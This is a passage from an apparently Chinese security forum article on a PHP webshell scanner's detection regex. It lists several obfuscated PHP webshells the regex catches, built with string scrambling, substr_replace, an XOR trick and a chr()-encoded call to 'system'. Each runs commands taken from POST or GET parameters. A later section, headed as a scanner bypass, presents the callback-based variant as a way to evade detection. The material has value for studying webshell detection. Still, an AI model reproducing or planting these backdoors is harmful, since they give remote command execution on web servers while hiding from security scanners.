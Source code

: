 <li>第一部分: 匹配以 <code>$</code> 符号开头的单词（变量名）</li>
<li>第二部分: 匹配一个或多个允许的字符，形成变量名的其余部分，比如 <code>$f</code> 或者 <code>$_</code></li>
<li>第三部分: 匹配零个或多个空白字符或注释，应该是防止中间掺杂垃圾字符干扰正则</li>
<li>第四部分: 匹配括号内的任意字符，相当于不检测括号内的内容</li>
</ul>
<p blockindex="33"><strong>相当于检测到外部变量想要作为函数执行括号内的内容就拦截，那这条正则匹配式能拦截啥呢？比如：</strong></p>
<p blockindex="34"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-588316eb84360d93e408782319a78f4337388322.png" alt="跨越十年-7.png" referrerpolicy="no-referrer"></p>
<p blockindex="35">一、自定义函数混淆字符串类型：</p>
<pre blockindex="36"><code class="hljs language-php"><span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">confusion</span>(<span class="hljs-params"><span class="hljs-variable">$a</span></span>)</span>{
<span class="hljs-variable">$s</span> = [<span class="hljs-string">'A'</span>,<span class="hljs-string">'a'</span>,<span class="hljs-string">'b'</span>, <span class="hljs-string">'y'</span>, <span class="hljs-string">'s'</span>, <span class="hljs-string">'s'</span>, <span class="hljs-string">'T'</span>, <span class="hljs-string">'e'</span>, <span class="hljs-string">'a'</span>, <span class="hljs-string">'m'</span>];
<span class="hljs-variable">$tmp</span> = <span class="hljs-string">""</span>;
<span class="hljs-keyword">while</span> (<span class="hljs-variable">$a</span>&gt;<span class="hljs-number">10</span>) {
<span class="hljs-variable">$tmp</span> .= <span class="hljs-variable">$s</span>[<span class="hljs-variable">$a</span>%<span class="hljs-number">10</span>];
<span class="hljs-variable">$a</span> = <span class="hljs-variable">$a</span>/<span class="hljs-number">10</span>;
}
<span class="hljs-keyword">return</span> <span class="hljs-variable">$tmp</span>.<span class="hljs-variable">$s</span>[<span class="hljs-variable">$a</span>];
}
<span class="hljs-variable">$f</span> = confusion(<span class="hljs-number">976534</span>); <span class="hljs-comment">//sysTem（高危函数）</span>
<span class="hljs-variable">$f</span>(<span class="hljs-variable">$_POST</span>[<span class="hljs-string">'aabyss'</span>]);   <span class="hljs-comment">//sysTem($_POST['aabyss']);</span>
</code></pre>
<p blockindex="37">二、一维数组绕过：</p>
<pre blockindex="38"><code class="hljs language-php"><span class="hljs-variable">$f</span> = substr_replace(<span class="hljs-string">"systxx"</span>,<span class="hljs-string">"em"</span>,<span class="hljs-number">4</span>); <span class="hljs-comment">//system（高危函数）</span>
<span class="hljs-variable">$z</span> = <span class="hljs-keyword">array</span>(<span class="hljs-variable">$array</span> = <span class="hljs-keyword">array</span>(<span class="hljs-string">'a'</span>=&gt;<span class="hljs-variable">$f</span>(<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'aabyss'</span>])));
var_dump(<span class="hljs-variable">$z</span>);
</code></pre>
<p blockindex="39">三、异或+变换参数绕过：</p>
<pre blockindex="40"><code class="hljs language-php"><span class="hljs-variable">$_</span>=<span class="hljs-string">'$&lt;&gt;/'</span>^<span class="hljs-string">'\{\{\{\{'</span>;@${<span class="hljs-variable">$_</span>}[_](@${<span class="hljs-variable">$_</span>}[__]);
</code></pre>
<p blockindex="41">等等，还有许多以 <code>变量(调用外部参数)</code> 来执行恶意命令的WebShell都能查杀，说明作者对参数变形和PHP参数调用的相关姿势烂熟于心啊哈哈</p>
<h1 blockindex="42">3# 查杀ByPass</h1>
<p blockindex="43">既然直接用变量作为函数执行不行的话，那可以曲线救国，比如：</p>
<pre blockindex="44"><code class="hljs language-php"><span class="hljs-comment">//ASCII编码解密后为system高危函数</span>
<span class="hljs-variable">$f</span> =  chr(<span class="hljs-number">114</span>+<span class="hljs-number">1</span>).chr(<span class="hljs-number">120</span>+<span class="hljs-number">1</span>).chr(<span class="hljs-number">116</span>-<span class="hljs-number">1</span>).chr(<span class="hljs-number">117</span>-<span class="hljs-number">1</span>).chr(<span class="hljs-number">100</span>+<span class="hljs-number">1</span>).chr(<span class="hljs-number">108</span>+<span class="hljs-number">1</span>);
call_user_func_array(<span class="hljs-variable">$f</span>, <span class="hljs-keyword">array</span>(<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'aabyss'</span>]));
</code></pre>
<p blockindex="45">通过这个简单的样例，采用回调函数的手法，来执行对应的命令</p>